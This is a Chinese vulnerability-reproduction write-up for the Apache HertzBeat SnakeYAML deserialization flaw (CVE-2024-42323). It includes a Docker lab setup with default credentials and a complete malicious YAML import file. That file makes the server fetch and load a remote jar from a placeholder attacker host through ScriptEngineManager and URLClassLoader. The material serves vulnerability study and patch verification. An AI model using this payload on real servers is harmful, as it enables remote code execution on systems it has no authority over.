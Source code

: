 # Apache-HertzBeat SnakeYaml反序列化漏洞(CVE-2024-42323)

Apache HertzBeat 是开源的实时监控工具。受影响版本中由于使用漏洞版本的 SnakeYAML 解析用户可控的 yaml 文件，经过身份验证的攻击者可通过 /api/monitors/import、/api/alert/defines/import 接口新增监控类型时配置恶意的 yaml 脚本远程执行任意代码。

影响范围：

* Apache HertzBeat < 1.6.0

参考链接：

* https://forum.butian.net/article/612
* https://lists.apache.org/thread/dwpwm572sbwon1mknlwhkpbom2y7skbx
* https://github.com/wy876/wiki/blob/main/Apache/Apache-HertzBeat-SnakeYaml%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E(CVE-2024-42323).md

## 漏洞环境

运行漏洞环境:

```
docker-compose up -d 
```

运行完成后，将启动一个`HertzBeat 1.4.4`版本的服务，服务开启之后，访问`http://your-ip:1157/dashboard`即可查看`HertzBeat`的登录界面，默认密码：admin/hertzbeat

## 漏洞复现

选择任何监控点击导入监控：

![image-20250225144319776](1.png)

修改上传yaml文件中的value值：

```yaml
- !!org.dromara.hertzbeat.manager.service.impl.AbstractImExportServiceImpl$ExportMonitorDTO
  detected: false
  metrics:
  - basic
  - cache
  - performance
  - innodb
  - status
  - handler
  - connection
  - thread
  - tmp
  - select_type
  - sort
  - table_lock
  - process_state
  - slow_sql
  monitor:
    app: mysql
    collector: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    description: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://your-vps-ip:4444/yaml-payload.jar"]]]]
    host: 127.0.0.1
    intervals: 60
    name: MYSQL_127.0.0.1
    status: 1
    tags:
    - 3
    - 4
  params:
  - field: host
    type: 1
    value: 127.0.0.1
  - field: port
    type: 0
    value: '3306'
  - field: database
    type: 1
    value: null
  - field: username
    type: 1
    value: root
  - field: password
    type: 2
    value: 9XNUiI+whoJ4Wih7yOiVwg==
  - field: timeout
    type: 0
    value: '6000'
  - field: url
    type: 1
    value: null
```



`/api/monitors/import`可以触发SnakeYaml反序列化漏洞

* 需要在`jdk11`环境下编译`https://github.com/fei9747/yaml-payload/`项目，生成利用`payload`
* example : 这里生成的`payload`执行的本地命令为: `touch /tmp/success`



成功执行代码

![image-20250225145141924](2.png)

![image-20250225145052690](3.png)
